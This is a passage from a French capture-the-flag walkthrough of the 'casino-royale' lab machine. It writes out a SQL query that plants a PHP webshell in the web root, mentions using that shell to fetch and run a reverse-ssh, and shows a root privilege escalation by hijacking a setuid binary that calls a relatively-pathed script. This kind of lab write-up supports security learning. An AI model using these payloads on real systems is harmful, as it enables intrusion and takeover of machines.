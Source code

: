```sql
SELECT '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/html/includes/shell.php'
```

Avec ce webshell je rapatrie et exécute un reverse-ssh. Je peux ensuite utiliser les identifiants de `valenka` via `su`.

Je remarque un binaire setuid root dans `/opt` :

```console
valenka@casino:~$ ls /opt/casino-royale/
total 48K
drwxrwxr-x 2 root le       4.0K Feb 22  2019 .
drwxr-xr-x 4 root root     4.0K Jan 17  2019 ..
-rwxrw---- 1 le   www-data  210 Feb 20  2019 casino-data-collection.py
-rw------- 1 le   le         40 Feb 22  2019 closer2root.txt
-rw-r--r-- 1 root root       79 Feb 20  2019 collect.php
-rwxr-xr-x 1 root root      174 Feb 21  2019 index.html
-rwsr-sr-x 1 root root     8.5K Feb 20  2019 mi6_detect_test
-rwxrwxr-x 1 le   le         54 Feb 20  2019 php-web-start.sh
-rwxr-x--- 1 le   le        402 Feb 20  2019 run.sh
-rwxrwxr-x 1 le   le         71 Feb 20  2019 user-data.log
```

Le binaire appelle bash avec le bon chemin absolu, mais le script qui est appelé est quant à lui relatif :

```console
valenka@casino:/opt/casino-royale$ strings mi6_detect_test 
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
__libc_start_main
_ITM_deregisterTMCloneTable
__gmon_start__
_Jv_RegisterClasses
_ITM_registerTMCloneTable
GLIBC_2.2.5
=W       
AWAVA
AUATL
[]A\A]A^A_
/bin/bash run.sh
```

L'exploitation est triviale :

```console
valenka@casino:/opt/casino-royale$ cd /tmp/
valenka@casino:/tmp$ echo bash > run.sh
valenka@casino:/tmp$ chmod 755 run.sh 
valenka@casino:/tmp$ /opt/casino-royale/mi6_detect_test 
root@casino:/tmp# id
uid=0(root) gid=1001(valenka) groups=1001(valenka)
root@casino:/tmp# cd /root
root@casino:/root# ls
ctf-scripts  Desktop  Downloads  flag  Maildir  node_modules  package-lock.json  Pictures
root@casino:/root# cd flag/
root@casino:/root/flag# ls
files  flag.sh  index.php
root@casino:/root/flag# ./flag.sh 
--------------------------------------------
--------------------------------------------
Go here:   http://casino-royale.local:8082
--------------------------------------------
--------------------------------------------
```